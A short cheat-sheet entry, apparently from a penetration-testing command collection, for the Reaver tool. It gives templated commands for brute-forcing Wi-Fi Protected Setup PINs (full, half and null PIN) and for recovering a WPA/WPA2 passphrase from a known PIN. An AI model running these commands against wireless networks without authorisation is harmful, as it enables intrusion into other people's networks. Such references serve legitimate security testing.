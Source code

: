 # reaver
% wifi, reaver, wps
#plateform/linux #target/remote #cat/RECON #cat/ATTACK

## _desc
```
```

## _repo
```
https://github.com/t6x/reaver-wps-fork-t6x
```

## _doc
```
Reaver implements a brute force attack against Wifi Protected Setup (WPS) registrar PINs in order to recover WPA/WPA2 passphrases
```

## _install
```
```

## PIN brute force
```bash
sudo reaver  -b <bssid> -c <wlan_channel> -i <wlan_interface|wmon>
```


## PIN brute force (half PIN)
```bash
sudo reaver  -b <bssid> -c <wlan_channel> -i <wlan_interface|wmon> -p <half_pin>
```

## Null PIN
```bash
sudo reaver  -b <bssid> -c <wlan_channel> -i <wlan_interface|wmon> -p " "
```

## retrive PSK from PIN
```bash
sudo reaver -i <wlan_interface|wmon> -b <bssid> -p <pin>
```